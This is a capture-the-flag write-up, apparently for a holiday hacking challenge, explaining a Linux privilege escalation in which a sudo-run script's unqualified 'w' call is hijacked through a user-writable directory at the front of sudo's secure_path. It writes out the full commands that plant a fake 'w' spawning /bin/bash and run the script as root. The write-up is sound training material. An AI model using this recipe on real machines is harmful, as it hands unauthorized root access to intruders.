



# Neighborhood Watch Bypass

## Challenge Objective 



## Challenge Solution

When I open the terminal for this challenge, I see a Linux terminal. The context and goal is at the top of the terminal, with space to enter my commands at the bottom. 



We've been locked out of the fire alarm system, and I need to get back in. I have to escalate my privileges on this Linux box to save the neighborhood. 

First, I run some commands to get basic information to identify the user, groups, kernel version, and OS.

``` 
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ id
uid=1000(chiuser) gid=1000(chiuser) groups=1000(chiuser)
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ whoami
chiuser
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ uname -a
Linux 74019db4c942 5.10.0-35-cloud-amd64 #1 SMP Debian 5.10.237-1 (2025-05-19) x86_64 x86_64 x86_64 GNU/Linux
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.5 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.5 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $
```

A good first step in Linux privilege escalation is to run ```sudo -l```, which lists the privileges for the invoking user on the Linux box. 

```
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ sudo -l
Matching Defaults entries for chiuser on 74019db4c942:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    secure_path=/home/chiuser/bin\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+="API_ENDPOINT API_PORT RESOURCE_ID HHCUSERNAME", env_keep+=PATH

User chiuser may run the following commands on 74019db4c942:
    (root) NOPASSWD: /usr/local/bin/system_status.sh
```

I see that there's a ```system_status.sh``` script that I'm able to run. I took a look at the file contents with cat. This is a good place to start since this is the only command shown in the result of the ```sudo -l``` command.

```
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ cat /usr/local/bin/system_status.sh 
#!/bin/bash
echo "=== Dosis Neighborhood Fire Alarm System Status ==="
echo "Fire alarm system monitoring active..."
echo ""
echo "System resources (for alarm monitoring):" 
free -h
echo -e "\nDisk usage (alarm logs and recordings):"
df -h
echo -e "\nActive fire department connections:"
w
echo -e "\nFire alarm monitoring processes:"
ps aux | grep -E "(alarm|fire|monitor|safety)" | head -5 || echo "No active fire monitoring processes detected"
echo ""
echo "🔥 Fire Safety Status: All systems operational"
echo "🚨 Emergency Response: Ready"
echo "📍 Coverage Area: Dosis Neighborhood (all sectors)"
```

Taking a close look at the lines in the script, the sole ```w``` on line 10 of the script sticks out to me as something to investigate further. The ```w``` is not a native Linux command like the other commands in the script. Instead, it's an external binary at ```/usr/bin```.

```
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ ls /usr/bin/w
/usr/bin/w
```

Since the script runs as root using sudo, whatever the ```w``` command executes will run with root privileges. 

After chatting with some folks on the HHC Discord server, I learned that the script runs the ```w``` command without an absolute path, but a relative one. This opens up an opportunity for a path hijacking attack.

At a high level, I have to do the below:
1. Create a malicious ```w``` binary
2. Prepend my working directory to PATH
3. Run the script with sudo

As I tried following these steps, I had some trouble. I look into it with ChatGPT, which tells me that my attempts could be failing due to the sudo environment preserving the path.

To check this, I run ```sudo -l``` again and see lines like secure_path=…, env_reset, and env_keep.

```
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ sudo -l
Matching Defaults entries for chiuser on caa45bfd0f20:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    secure_path=/home/chiuser/bin\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+="API_ENDPOINT API_PORT RESOURCE_ID HHCUSERNAME", env_keep+=PATH

User chiuser may run the following commands on caa45bfd0f20:
    (root) NOPASSWD: /usr/local/bin/system_status.sh
```

The lines at the top of the output prevented my initial path hijack attack from working. After some more troubleshooting, I was able to execute the attack by following the below steps. 

Confirm the /home/chiuser/bin directory:
```
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ ls /home/chiuser
bin
```

In the output of ```sudo -l``` above, the ```secure_path``` starts with ```/home/chiuser/bin```. This is the first directory for sudo's forced path. This directory exists inside the home directory for the user I'm logged in as, I am the owner, I can write files to it, and it is searched before ```/usr/bin```, where the real ```w``` lives. 

So, if I place a fake ```w``` inside ```/home/chiuser/bin```, then sudo will use my malicious version instead of the system version. This is because the ```/home/chiuser/bin``` directory is the first value for the ```secure_path``` variable. 

Creating the malicious "w" file:
* ```echo '#!/bin/bash' > /home/chiuser/bin/w```
* ```echo '/bin/bash' >> /home/chiuser/bin/w```
* ```cat /home/chiuser/bin/w```

The first command redirects the text on the left hand side of > to the malicious w file. The shebang (#1/bin/bash) tells the Linux kernel "run the file using /bin/bash when executed". The shebang is needed to make ```w``` a valid Bash script. 

The second command appends /bin/bash to the existing w file, which is needed to give me the root shell. I use the third command for cat to view the file to make sure it looks right before moving on.

```
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ cat /home/chiuser/bin/w
#!/bin/bash
/bin/bash
```

So, when I run this script that uses the ```w``` command, the Linux kernel sees the first line with the shebang and knows it's a Bash script. It launches /bin/bash to interpret the file, then Bash reads the next line /bin/bash and executes that line as a command. 

Since the parent process, the ```system_status.sh``` script runs as root via sudo, this new shell gives me an interactive root shell.  

Making the malicious ```w``` file executable:
* ```chmod +x /home/chiuser/bin/w```

The next step after creating the malicious ```w``` file is using chmod to make it executable. Now, I can run the ```system_status.sh``` script again, and my malicious ```w``` command will get executed before the actual ```w``` command at ```/usr/bin/w``` is run. 

Run the malicious "w" with sudo:
* ```sudo /usr/local/bin/system_status.sh```

Once I run my malicious ```w``` with sudo, I now have root privileges. To complete the challenge, I must run the command mentioned in the context of the challenge at the top of the Linux terminal earlier, ```/etc/firealarm/restore_fire_alarm```.

 